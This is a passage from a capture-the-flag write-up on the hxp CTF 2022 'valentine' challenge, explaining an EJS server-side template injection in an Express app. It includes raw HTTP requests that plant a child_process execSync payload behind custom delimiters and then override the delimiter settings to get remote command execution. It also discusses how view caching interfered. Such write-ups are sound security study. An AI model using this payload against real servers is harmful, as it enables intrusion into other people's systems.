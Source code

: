 At this point, we can create a template that uses custom delimiters containing a simple command execution, so that the `while` loop searching for the single allowed placeholder is bypassed:

```
POST /template
Host: 127.0.0.1:9086
Content-Type: application/x-www-form-urlencoded

tmpl=foo [.= process.mainModule.require('child_process').execSync('echo pippo').toString() .] bar&name=asd
```

![]({{page.screenshots}}valentine7.png)

Then we can request that template passing the `settings[view options]` fields with the new desired delimiters:

```
GET /991a04f8-fecd-42f9-af93-31d29f13420c?name=asd&settings[view%20options][delimiter]=%2e&settings[view%20options][openDelimiter]=%5b&settings[view%20options][closeDelimiter]=%5d
Host: 127.0.0.1:9086
```

![]({{page.screenshots}}valentine8.png)

Finally we did it! We have remote command execution and we can exfiltrate the flag, either by showing it on the screen, or by using OAST techniques.

![]({{page.screenshots}}valentine9.png)
![]({{page.screenshots}}valentine10.png)

### Cache and custom delimiters

The intended solution [^9] was not so different from the one we adopted, and to be honest, we came across it but didn't get it because of a simple but dangerous error.  

During the analysis, we did not consider that the server was configured to run in production mode and that Express, therefore, had caching enabled.

Dockerfile:
```Dockerfile
ENV NODE_ENV=production
```

Express.js:
```js
if (env === 'production') {
  this.enable('view cache');
}
```

[^9]: [https://hxp.io/blog/101/hxp-CTF-2022-valentine/](https://hxp.io/blog/101/hxp-CTF-2022-valentine/)

When we sent the custom delimiter in the query string, we didn't get back any valid result because **the server had already cached the view with the un-modified delimiter** since the first time we requested the template. If we try passing the delimiter field **the first time we access the template**, we obtain the same result achieved using the view options element.


[^1]: [https://ejs.co/#docs](https://ejs.co/#docs )
[^2]: [https://ejs.co/#docs](https://ejs.co/#docs)
[^3]: [https://expressjs.com/en/api.html#res.render](https://expressjs.com/en/api.html#res.render)
[^4]: [https://snyk.io/blog/fixing-ejs-rce-vuln/](https://snyk.io/blog/fixing-ejs-rce-vuln/)
[^5]: [https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data](https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data)
[^6]: [https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/](https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/)
[^7]: [https://eslam.io/posts/ejs-server-side-template-injection-rce/](https://eslam.io/posts/ejs-server-side-template-injection-rce/)
[^8]: [https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x](https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x)